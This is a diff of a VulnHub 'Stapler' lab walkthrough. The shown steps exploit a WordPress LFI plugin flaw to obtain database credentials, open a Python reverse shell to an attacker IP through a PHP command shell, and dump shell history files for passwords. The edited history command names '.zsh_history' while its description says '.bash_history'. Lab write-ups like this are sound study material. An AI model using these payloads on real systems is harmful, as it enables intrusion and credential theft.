

Before and after one commit to 2series/cyber-labs-2series, a Markdown page: vulnhub/02stapler.md, 3 parts joined by grey strips. Shown: that part at 98% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Stapler file update

````diff
--- a/vulnhub/02stapler.md
+++ b/vulnhub/02stapler.md
@@ -130,21 +118,23 @@ The `blogblog` directory appears to be a WordPress installation. We should use `
 The `wpscan` output identified an LFI vulnerability in the `advanced-video-embed-embed-videos-or-playlists` plugin. We can exploit this to obtain sensitive information.
 
-**Chain of Thought:**
+**CoT:**
 1. Research the identified LFI vulnerability (CVE-2016-10972) and find an exploit script (e.g., from Exploit-DB).
 2. Modify the exploit script to handle potential SSL errors by adding the following lines:
+
    ```python
    import ssl
    ssl._create_default_https_context = ssl._create_unverified_context
    ```
-3. Run the exploit script against the target, providing the necessary parameters.
-4. If successful, the exploit should retrieve the `wp-config.php` file.
-5. Navigate to `https://192.168.1.13:12380/blogblog/wp-content/uploads/` and download the file identified by the exploit script.
-6. Remove the `.jpeg` extension from the downloaded file.
-7. Open the file and extract the MySQL credentials.
 
-</thinking>
+4. Run the exploit script against the target, providing the necessary parameters.
+5. If successful, the exploit should retrieve the `wp-config.php` file.
+6. Navigate to `https://192.168.1.13:12380/blogblog/wp-content/uploads/` and download the file identified by the exploit script.
+7. Remove the `.jpeg` extension from the downloaded file.
+8. Open the file and extract the MySQL credentials.
+
 
 <reflection>
+
 - LFI vulnerabilities allow attackers to read arbitrary files on the server. Exploiting this vulnerability can lead to the disclosure of sensitive information, such as configuration files containing credentials.
 - **Potential Errors:** The exploit script might not work, the LFI vulnerability might be patched, or the downloaded file might not contain valid credentials.
 </reflection>
@@ -180,14 +170,17 @@ We have obtained MySQL credentials. We can use these to connect to the database
 We have a PHP command shell. We can use this to establish a reverse shell and then spawn a TTY shell for better interaction.
 
-**Chain of Thought:**
+**CoT:**
 1. Set up a netcat listener on your attacking machine: `nc -lvp 443`.
 2. Use the PHP command shell to execute a Python reverse shell by appending the following to the URL:
-   ```
+
+   ```zsh
    ?cmd=python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
+
    Replace `192.168.1.7` with your attacking machine's IP address.
 3. Once the reverse shell is established, spawn a TTY shell using:
-   ```
+
+   ```zsh
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```
 
@@ -204,10 +196,12 @@ We have a PHP command shell. We can use this to establish a reverse shell and th
 We have a shell on the target machine. We should try to find a way to escalate privileges to root.
 
-**Chain of Thought:**
+**CoT:**
 1. Use the following command to find and display the content of `.bash_history` files on the system, looking for any recorded commands that might reveal credentials or escalation paths:
-   ```bash
-   find -name ".bash_history" -exec cat {} \;
+
+   ```zsh
+   find -name ".zsh_history" -exec cat {} \;
    ```
+
 2. Analyze the output for usernames and passwords.
 3. Attempt to SSH into the target machine using the discovered credentials (e.g., `ssh peter@192.168.1.13`).
 4. Once logged in, use `sudo -l` to check if the user has any sudo permissions.
````
Also changed, not shown: other parts of vulnhub/02stapler.md (+42 -36 lines), vulnhub/03sickOS.md (added).
